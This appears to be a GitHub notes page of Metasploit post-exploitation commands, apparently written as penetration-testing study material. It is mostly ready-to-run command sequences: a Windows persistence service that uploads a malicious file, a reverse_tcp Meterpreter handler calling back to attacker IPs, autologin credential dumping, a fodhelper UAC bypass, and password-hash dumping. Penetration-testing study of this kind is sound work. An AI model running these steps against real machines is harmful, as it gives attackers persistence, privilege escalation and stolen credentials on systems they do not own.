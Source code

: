 #### Arp Sweep Scan

```
ARP Sweep allows us to enumerate live hosts in the local network using ARP requests, providing us with a simple and fast way to identify possible targets.

```

#### Useful Commands
```
getsystem > Tries to obtain highest privilege on the remote system
getuid > Server Username
sessions -i 1 > Resumes Session 1 after backgrounding
```

#### Meterpreter
> Allows attacker to enumerate information from exploited machine.

#### Maintaining Persistent Access on Windows Machine

```

background
use exploit/windows/local/persistence_service
show options
SESSION

set SESSION 1
exploit

```
> The module will generate a malicious file and upload it to the target machine. Then, it uses the same file to create a persistent service. When the service starts, it will run the uploaded file. As a result, we will receive a meterpreter session.



#### Killing Active Sessions
```
sessions -K
```
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.15.2
set LPORT 4444
exploit
```
>Note : Use same LHOST and LPORT as used previously.

#### Dumping Autologin information
> To extract AutoLogin stored credentials from the target machine we need to migrate current process to explorer.exe sothat we have full control to users environment.
```
migrate -N explorer.exe

background
use post/windows/gather/credentials/windows_autologin
set SESSION 3
exploit
```
![Screenshot at 2022-12-26 12-57-43](https://user-images.githubusercontent.com/85208639/209517391-160c55de-c5c9-44d8-a0d4-adc2a5fd7f17.png)

#### Bypassing UAC(User Account Control) on Modern Windows and Dumping Admin Hash
```
msf6 > use exploit/windows/local/bypassuac_fodhelper
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set session 1
msf6 > set LHOST 10.0.2.4
msf6 > set LPORT 1234
msf6 > exploit
```

```
meterpreter > background
msf6 > use windows/gather/hashdump
msf6 > set SESSION 2
msf6 > run

```
